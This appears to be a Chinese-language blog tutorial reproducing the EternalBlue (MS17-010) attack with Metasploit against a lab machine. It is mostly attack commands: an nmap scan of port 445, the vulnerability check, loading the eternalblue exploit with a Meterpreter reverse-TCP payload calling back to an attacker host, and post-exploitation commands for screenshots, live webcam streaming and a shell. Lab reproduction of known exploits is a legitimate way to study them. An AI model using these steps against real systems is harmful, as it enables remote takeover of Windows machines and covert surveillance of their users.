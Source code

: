 ```yaml
---
title: MSF永恒之蓝漏洞复现
tags: 
- 漏洞
categories:
- 技术分享
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26
---
```


永恒之蓝是指2017年5月12日起，全球范围内爆发的基于Windows网络共享协议进行攻击传播的蠕虫恶意代码，不法分子通过改造之前泄露的NSA黑客武器库中“永恒之蓝”攻击程序发起的网络攻击事件。

因为永恒之蓝攻击的是445端口, 扫描局域网中所有开放的445端口

```sh
nmap -sS -p 445 192.168.1.1-245
```

打开MSF, 加载扫描模块, 扫描靶机是否存在该漏洞
```sh
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.0.130       (靶机的IP)
exploit
```

加载攻击模块,并配置参数
```sh
use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 192.168.0.130 (靶机的IP)

set lhost 192.168.0.129 (发起攻击的主机IP)

set lport 443       (监听的端口)

exploit
```

功能展现

1.捕捉桌面：
meterpreter >screenshot

2.视屏开启
meterpreter > webcam_stream

3.获取shell





